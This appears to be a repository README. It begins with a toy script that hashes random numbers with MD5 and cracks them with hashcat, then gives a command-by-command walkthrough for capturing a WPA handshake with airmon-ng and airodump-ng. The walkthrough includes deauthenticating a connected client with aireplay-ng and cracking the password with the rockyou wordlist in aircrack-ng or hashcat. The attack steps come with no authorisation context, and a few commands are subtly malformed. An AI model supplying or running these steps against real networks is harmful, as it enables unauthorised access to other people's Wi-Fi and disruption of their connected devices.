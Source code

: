 # Cryptography
Cryptography is a method of protecting information and communications through the use of codes so that only those for whom the information is intended can read and process it. The pre-fix "crypt" means "hidden" or "vault" and the suffix "graphy" stands for "writing."

# random-md5-generator 
creating a random password with md5sum encryption and then save the encrypted password in md5keys.txt

# How to use 
./random-md5-generator

Genateted Number:

879076701

-----------------------

Number to md5 Password:

82fc843ab6a4c1767572f75775800ae8  -


delete the  - from the file md5keys.txt

# crack with

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d


# then use 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show 

or 

hashcat -m 0 -a 3  md5keys.txt ?d?d?d?d?d?d?d?d --show >> md5keys.txt

to see the unencypt keys 

# Get handshake with aircrack-ng

put your network device into monitor mode
airmon-ng start wlan0

listen for all nearby beacon frames to get target BSSID and channel
airodump-ng mon0

start listening for the handshake
airodump-ng -c 6 — bssid 9C:5C:8E:C9:AB:C0 -w capture/ mon0

optionally deauth a connected client to force a handshake
aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 mon0

# download rockyou.txt wordlist
crack password with aircrack-ng… ########### download 134MB rockyou.txt dictionary file if needed
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack with aircrack-ng
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt capture/-01.cap

########## or crack password with hashcat ##########
# convert cap to hccapx
cap2hccapx.bin .-01.cap example.hccapx

# crack with hashcat
hashcat -w 3 -m 2500 rockyou.txt example.hccapx  --force --self-test-disable
